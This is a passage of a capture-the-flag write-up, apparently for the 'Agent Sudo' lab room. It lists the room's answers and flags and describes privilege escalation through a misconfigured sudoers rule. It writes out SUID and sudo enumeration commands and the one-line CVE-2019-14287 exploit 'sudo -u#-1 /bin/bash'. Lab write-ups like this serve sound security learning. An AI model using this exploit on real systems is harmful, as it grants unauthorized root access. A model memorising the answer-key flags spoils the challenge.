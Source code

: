### Questions

**What is the user flag?**

> b03d975e8c92a7c04146cfa7a5a313c7

**What is the incident of the photo called?**

> Roswell alien autopsy

## Task 5: Privilege escalation

Enough with the extraordinary stuff? Time to get real.

I checked if any unusual binaries have the SUID bit set but found none. Next, I listed all the processes that are running as root on the system and the running processes also looked to be in order.

```bash
# Binaries with SUID set
find / -type f -user root -perm -4000 -exec ls -lah {} + 2> /dev/null

# Processes running as root
ps aux | grep root

# Sudo permissions
sudo -l
```

![Elevation|600](images/thm-agent-sudo/elevation.png)

The `sudoers` file shows that Agent J can run the `/bin/bash` command as any user leaving the root user. This is a strange and uncommon access configuration.

![Sudo Version|320](images/thm-agent-sudo/sudo-version.png)

The system is using version `1.8.21p2` of the sudo utility.

A quick Google search reveals that this version of the binary has a vulnerability that can be used to gain root access.

![Sudo Exploit|600](images/thm-agent-sudo/sudo-exploit.png)

[sudo 1.8.27 - Security Bypass - Linux local Exploit](https://www.exploit-db.com/exploits/47502)

```bash
sudo -u#-1 /bin/bash
```

![Sudo Exploit 2|350](images/thm-agent-sudo/sudo-exploit-2.png)

### Questions

**CVE number for the escalation (Format: CVE-xxxx-xxxx)**

> CVE-2019-14287

**What is the root flag?**

> b53a02f55b57d4439e3341834d70c062

**(Bonus) Who is Agent R?**

> DesKel

That's all. Happy Hacking :)